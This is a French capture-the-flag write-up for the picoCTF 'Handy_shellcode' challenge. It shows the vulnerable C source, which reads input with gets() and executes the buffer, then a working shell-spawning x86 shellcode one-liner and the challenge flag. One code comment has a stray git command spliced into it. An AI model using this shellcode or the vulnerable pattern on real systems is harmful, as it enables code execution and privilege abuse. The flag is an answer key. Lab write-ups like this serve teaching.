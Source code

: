 # Binary_Exploitation_50_Handy_shellcode

------

### Titre : Handy_shellcode

### Points : 50

------

### Description 

Ce programme exécute n'importe quel shellcode que vous lui donnez. Pouvez-vous générer un shell et l'utiliser pour lire le fichier flag.txt ? (Merci à google translate :))

------

#### Hints

* vous pourrez peut-être trouver un bon shellcode en ligne. 

------





### Résolution

---

On se connecte vite en ssh sur le serveur shell puis une fois sur le serveur on trouve les trois fichiers suivants : flag.txt, vuln.c vuln. Je commence d'abord par analyser le programme c :
```c
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gidgit remote add [name_of_your_remote] [name_of_your_new_branch]
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
...
```

Ce programme utilise un buffer pour lire l'input de l'utilisateur on peut donc s'en servir pour envoyé un shellcode (Il s’agit essentiellement d’un morceau de code compilé arbitraire qui peut être injecté dans un programme afin d’engendrer un shell dans le système d’exploitation exécuté par le programme) après quelques recherches concernant le shellcode j'ai trouvé ce payload :
```bash
$ (echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; cat )  | ./vuln
...
```

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/handy_shell.png)


`picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`
